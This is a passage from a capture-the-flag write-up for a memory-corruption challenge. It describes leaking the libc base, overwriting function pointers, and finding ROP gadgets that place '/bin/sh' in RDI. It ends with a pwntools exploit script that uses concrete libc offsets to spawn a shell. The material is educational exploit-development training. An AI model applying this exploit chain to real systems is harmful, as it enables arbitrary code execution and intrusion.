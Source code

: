 That's at offset `0x3f890`. Nice. So what we need to do now is leak the libc base then add `0x1653B8` to get a pointer to `/bin/sh` and add `0x3f890` to get a pointer to `system()`. Go look back at how the mrskeletal struct is set up. It has a bunch of text followed by function pointers. But the regular meme struct calls the second word of the struct while passing the third word as the argument. So the exploit string will be something like `'A'*8 + p64(libc+0x3f890) + p64(libc+0x1653B8)`. That gets base64 encoded and put in as the response to mr skeletal.

Now run it and see what happens. Notice how it's loading the "argument" struct member into $EDI instead of $RDI. That's chopping off our top bits. FRICK. Now just fire up 1000000 cores, spray the stack with `/bin/sh`s, and brute force. Or actually finish the exploit like a real hacker.

We'll need some sort of ROP going on. We don't control the stack, so we can't get much of a ROP chain going on. But we do control what RAX points to, so that's nice. I'd say this is the hardest/longest part of the challenge. You need to find something to put a pointer into `$RDI`. It would be nice to have a `mov rdi, rax` since we can just put `/bin/sh\x00` into the first 8 bytes there.

```
ROPgadget --binary tmp/usr/lib/libc-2.22.so > libc-remote.rop
```

How are we going to continue execution after moving something into `$RDI`? We'll need a `call qword ptr [rax]` instead of a ret at the end. There aren't too many of those, so let's find something that moves stuff into `$RDI`. Try it..... Not much good, is there?

Try harder. Notice that `$RBP` is nice and small. Also check out `method_checkout()`. Notice this: `.text:0000000000000DD5                 or      ebp, eax`. That means we can control `$RBP` if we do a simple `ret;` after the call that we control. Then we'll just do another skeletal to exploit it again. Then we can look for gadgets again, this time controlling `$RBP` also. The top gadget is from my local libc, the second is from the remote libc.

```
0x000000000010a474 : mov rdi, rbp ; lea r9, qword ptr [rsp + 0x18] ; call qword ptr [rax]
0x0000000000120173 : mov rdi, rbp ; call qword ptr [rax]
```

Nice. So move `$RBP` into `$RDI` and call the pointer at the beginning of our string buffer. Also note that `$RBP` will be set to the beginning of the previous skeletal, so it's just garbage as of now. So, we can make that point to `/bin/sh`! Then make the beginning of this point to `system()`. Some relevant code from my exploit (with actual remote values):

```python
system = libc + 0x46640
binsh = libc + 0x17CCDB
bespoke_ret = libc + 0xf479e
bespoke_gadget = libc + 0x120173
log.info('System: {} \tbinsh: {}'.format(hex(system), hex(binsh)))
for _ in range(250):
  add_meme()
for _ in range(6):
  add_skel()
sploit = '/bin/sh\x00'  # this will go into rbp, then rdi
sploit += p64(bespoke_ret)  # this is the first ret
add_skel(resp=sploit)
sploit = p64(system)    # bespoke_gadget calls this
sploit += p64(bespoke_gadget)
add_skel(resp=sploit)
r.interactive()
```
